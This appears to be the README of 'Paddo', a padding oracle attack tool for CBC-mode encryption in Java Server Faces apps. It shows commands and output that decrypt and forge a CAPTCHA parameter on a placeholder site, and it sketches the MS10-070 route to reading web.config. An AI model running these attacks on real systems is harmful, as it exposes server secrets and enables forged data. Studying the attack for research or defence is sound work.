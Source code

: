 Paddo
=====
Audit and attack the underlying cryptography in CBC mode for decrypting or re-encrypting any plaintext without knowing the secret key. An "oracle" is when a service or machine receives a ciphertext, decrypts it and then replies to the sender whether the padding is correct or not. At Eurocrypt 2002, Vaudenay introduced a powerful side-channel attack against CBC-mode encryption with PKCS#5. This framework currently attacks Java Server Faces vulnerable versions and allows to extend current methods for beeing used in customized web applications.

For example:

	http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO

Here the ciphertext is: OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO (Which is the real value of the "security word" but encrypted)

	lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?
	securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord
	[+] Detecting a Padding Oracle in parameter: securityWord
	[+] Encoding Detected: base64
	[+] Blocksize Detected: 8 bytes
	[!] Sending our first block nulled payload
	[!] JSF vulnerable to a Padding Oracle attack
	[+] Decrypting block #: 2
	[+] Original Block: f5840d9c7c69e614
	[+] IV: 39d5dd57ff7ac81b
	[+] Padding !
	[!] Invalid Padding: 0000000000000000
	[...]
	[!] Valid Padding: bbd452917164eb19 5b0f858162db108e
	[!] Intermediate Block: b3dc5a99796ce311
	[*] Block decrypted: 4658570505050505
	[!] Plaintext: 05190,ZRFXW

We successfully decrypted our ciphertext !

Paddo attemps to decrypt valid ciphertext on a service which acts as an "oracle". Obviously this service must know the key of the ciphertext since is the one who will check for proper padding after decrypting it due to PKCS#5.

Also paddo supports re-encryption (CBC-R), that is encrypting a custom plaintext with the server key without really knowing it. 

For example encrypting a "LUCAS" with paddo:

	lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?
	securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord --encrypt 05555,LUCAS
	[...]
	[*] Encrypting: 05555,LUCAS
	[...]
	[!] Valid Padding: 65b4cdb2be1e37d8 2b5c874bd1c94191
	[!] Intermediate Block: 6dbcc5bab6163fd0
	[*] Block decrypted: 6dbcc5bab6163fd0
	[!] Ciphertext: XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

If the Cookie image is feed by the securityWord parameter, we will see the word LUCAS in the CAPTCHA.

	http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

This is the core of http://technet.microsoft.com/en-us/security/bulletin/MS10-070.

Briefly, you can encrypt a "web.config" string with the server secret key, and then feed the WebResource.axd script for fetching the content of that file. Currently paddo only attacks Java Server Faces, but it may be extended to also support ASP.NET since the attack is very similar.

1. http://reference.kfupm.edu.sa/content/s/e/security_flaws_induced_by_cbc_padding____89549.pdf
2. http://netifera.com/research/poet/PaddingOracleBHEU10.pdf